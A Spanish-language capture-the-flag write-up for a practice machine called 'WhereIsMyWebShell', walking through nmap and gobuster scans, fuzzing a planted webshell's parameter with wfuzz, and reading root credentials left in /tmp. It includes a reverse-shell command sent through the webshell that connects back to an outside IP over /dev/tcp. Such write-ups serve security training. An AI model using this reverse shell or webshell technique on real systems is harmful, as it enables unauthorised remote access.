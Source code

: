 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  12/04/2024
---
```


# WhereIsMyWebShell

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (851).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (852).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web de una Academia de Inglés.

<figure><img src="../../.gitbook/assets/image (853).png" alt=""><figcaption></figcaption></figure>

Si revisamos la página web nos dice que hay un secreto en el directorio **/tmp**.

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (854).png" alt=""><figcaption></figcaption></figure>

### &#x20;🚀 **EXPLOTACIÓN**

Nos encontramos una archivo llamado `shell.php` en que imaginamos que es una **WebShell** y nos da una pista tal como se llama la máquina.&#x20;

```bash
http://172.17.0.2/shell.php?cmd=id
```

No nos devuelve nada por lo que realizamos **fuzzing**.

```bash
wfuzz -c --hc=404,500 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/shell.php?FUZZ=id
```

<figure><img src="../../.gitbook/assets/image (856).png" alt=""><figcaption></figcaption></figure>

Descubrimos que el parámetro es `parameter`.

<figure><img src="../../.gitbook/assets/image (855).png" alt=""><figcaption></figcaption></figure>

Aprovechamos eso para hacer una [Reverse Shell](https://www.revshells.com/).

```bash
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.255.136/443 0>%261"
```

Nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (857).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Revisamos el archivo que hay en el directorio `/tmp`.

<figure><img src="../../.gitbook/assets/image (858).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con **root** con esas credenciales.

<figure><img src="../../.gitbook/assets/image (859).png" alt=""><figcaption></figcaption></figure>
